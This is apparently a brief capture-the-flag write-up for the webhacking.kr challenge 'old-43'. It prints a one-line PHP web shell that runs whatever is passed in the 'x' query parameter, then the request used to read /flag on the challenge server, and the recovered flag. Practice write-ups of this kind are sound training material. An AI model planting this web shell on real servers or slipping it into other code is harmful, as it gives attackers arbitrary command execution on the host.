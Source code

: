 ```yaml
---
layout: default
title: old-43
---
```




here i created this webshell
```
<?php echo `$_GET[x]`?>
```

then, when you access it:
`http://webhacking.kr:10004/upload/coolCode.php?x=cat%20/flag`


**Flag:** ***`FLAG{V2hhdCBkaWQgeW91IGV4cGVjdD8=}`*** 

